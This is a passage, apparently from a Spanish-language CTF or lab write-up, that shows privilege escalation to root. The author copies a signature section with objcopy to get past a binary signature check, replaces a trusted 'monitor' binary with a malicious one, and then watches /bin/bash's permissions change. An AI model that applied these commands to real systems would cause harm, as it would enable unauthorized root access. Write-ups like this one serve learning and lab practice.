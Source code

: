 compilamos el binario
```bash
gcc -static monitor2.c -o monitor2
```

copiamos la seccion `.text_sig` desde el binario original hasta nuestro binario malicioso

```bash
objcopy --dump-section .text_sig=sig monitor # extraemos la seccion desde el binario original y la almacenamos en el archivo sig
```
```bash
objcopy --add-section .text_sig=sig monitor2 # copiamos la seccion extraida al binario malicioso
```
```bash
mv monitor monitor_original && mv monitor2 monitor && ls -la /bin/bash  # cambiamos los nombres de los binarios para suplantar el original con el malicioso y consultamos los permisos de /bin/bash (inicialmente normales)
```
Esperamos un rato para volver a consultar los permisos de `/bin/bash` y vemos que a funcionado

```bash
ls -la /bin/bash
```


<img width="1920" height="257" alt="image" src="https://github.com/user-attachments/assets/982f0e4a-c59a-4ce1-91cb-61df04013b99" />

podemos escalar a `root`

<img width="1920" height="479" alt="image" src="https://github.com/user-attachments/assets/120a0e9b-0de6-4171-85d9-17898cbd8ead" />






